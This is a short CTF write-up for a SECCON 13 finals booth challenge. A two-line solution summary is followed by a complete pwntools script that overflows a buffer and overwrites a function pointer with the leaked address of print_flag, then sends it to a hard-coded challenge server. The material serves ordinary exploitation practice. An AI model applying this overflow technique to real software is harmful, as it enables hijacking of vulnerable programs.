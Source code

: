 ## danger of buffer overflow
<primary-label ref="pwn"/>

[](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/danger-of-buffer-overflow)

* solution
  * buffer overflow vulnerability
  * rewrite a function pointer
```py
from pwn import *
import sys

e = ELF("buffer-overflow",checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 24310"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    set max-visualize-chunk-size 0x300
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data

ru(b"address of print_flag func: ")
print_flag = int(rl().strip(),16) 

paybyte(b"A"*0x8)
add64(print_flag)

sl(payload)

shell()
```
